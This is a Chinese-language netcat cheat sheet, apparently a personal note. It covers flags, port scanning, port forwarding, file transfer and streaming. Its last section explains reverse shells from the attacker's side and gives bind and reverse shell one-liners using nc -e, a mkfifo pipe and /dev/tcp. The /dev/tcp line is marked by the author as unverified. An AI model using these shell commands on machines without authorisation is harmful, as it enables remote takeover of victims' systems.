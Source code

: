 # netcat
BSD版的不支技-c -e参数，而GNU版的有-e参数
## 基本命令
- server: nc -l [port_num]
- client: nc [host] [port]
## 参数
- 端口扫描：
    nc -z hostname 80-90
    tips：可以指定-w和发送一个通用消息探测服务器类型
    Ex: echo "QUIT" | nc host.example.com 20-30
- 指定客户端端口： 
    -p xxx
    -r 随机(默认)
- 指定本机使用出口ip
    -s addr
- 指定udp协议： -u
- 指定超时秒： -w xxx
- 输出详情: -v
- -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
- -e filename             program to exec after connect [dangerous!!]
## 场景
- 端口转发
  - 单向: `ncat -l 8080 | ncat target-ip 80`
  - 双向: `mkfifo 2way;ncat -l 2182 0<2way | ncat 127.0.0.1 2181 1>2way`
- 端口扫描:
    `nc -z -v -n 172.31.100.7 21-25`
- Chat Server:
    `nc -l 8080` and `nc server-ip 8080`
- 传文件(一次性)
    服务器->客户端:
     `nc -l 8080 < /var/www/index.html`
     `nc server-ip 8080 > /var/www/index.html`
- Shell(一次性),反向/反弹Shell
    反弹shell，指的是我们在自己的机器上开启监听，然后在被攻击者的机器上发送连接请求去连接我们的机器，将被攻击者的shell反弹到我们的机器上
    - Server(GNU NC) 支持`e`参数
    Server: `nc server-ip 1567` 
    Client: `nc -l 1567 -e /bin/bash -i`
    - Server(BSD NC) 不支持`e`参数
    Server: `nc server-ip 1567`
    Client:
    ```
        mkfifo /tmp/tmp_fifo
        cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
    ```
    `/bin/bash -i >& /dev/tcp/192.168.0.4/7777`(待验证)
    
- 视频流
    Server: `cat video.avi | nc -l 1567`
    Client: `nc server-ip 1567 | mplayer -vo x11 -cache 3000 -`
